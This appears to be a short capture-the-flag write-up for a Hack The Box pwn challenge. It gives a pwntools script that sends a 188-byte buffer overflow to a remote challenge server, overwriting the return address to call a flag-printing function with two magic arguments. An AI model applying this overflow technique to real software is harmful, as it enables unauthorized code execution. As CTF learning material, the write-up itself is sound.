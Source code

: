 ##0xDiablo

>> This is the second pwn challenge in hack the box
>> Using ghidra you'll see the function that is printing out the flag should be passed two argurments to it.Which are later compared and if the condition is true the flag is printed .

Here's my script and approach to solving the challenge.

```#!/usr/bin/env python3

from pwn import *

elf = ELF("./vuln")
context.update(arch="i386")
p = remote('159.65.53.42', '30458')
#p = elf.process()
payload = b'A'*188
payload += p32(0x80491e2)
payload += b'\x90\x90\x90\x90'
payload += p32(0xdeadbeef)
payload += p32(0xc0ded00d)

print(p.recvline())
p.sendline(payload)
print(p.recvline())
p.interactive()
```

